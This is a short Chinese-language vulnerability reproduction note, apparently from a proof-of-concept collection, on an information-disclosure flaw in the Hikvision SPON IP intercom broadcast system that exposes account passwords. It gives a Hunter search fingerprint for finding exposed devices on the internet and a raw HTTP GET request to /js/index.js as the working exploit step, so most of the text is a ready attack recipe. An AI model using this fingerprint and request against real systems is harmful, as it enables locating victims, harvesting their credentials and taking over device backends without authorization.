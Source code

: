 # 海康威视SPON IP网络对讲广播系统index存在信息泄露漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统index存在信息泄露漏洞，攻击者可通过该漏洞在服务器端读取账户密码，从而登录后台。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/ZQoNFDtBj3VElRjU/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-912720.png)

# 四、漏洞复现
```java
GET /js/index.js?t=0.1 HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Accept-Encoding: gzip, deflate, br
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1704944865462-8df9d69d-9782-4600-a55a-b0e4d4aac452.png](./img/ZQoNFDtBj3VElRjU/1704944865462-8df9d69d-9782-4600-a55a-b0e4d4aac452-356579.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ladsou0vl281yvr7>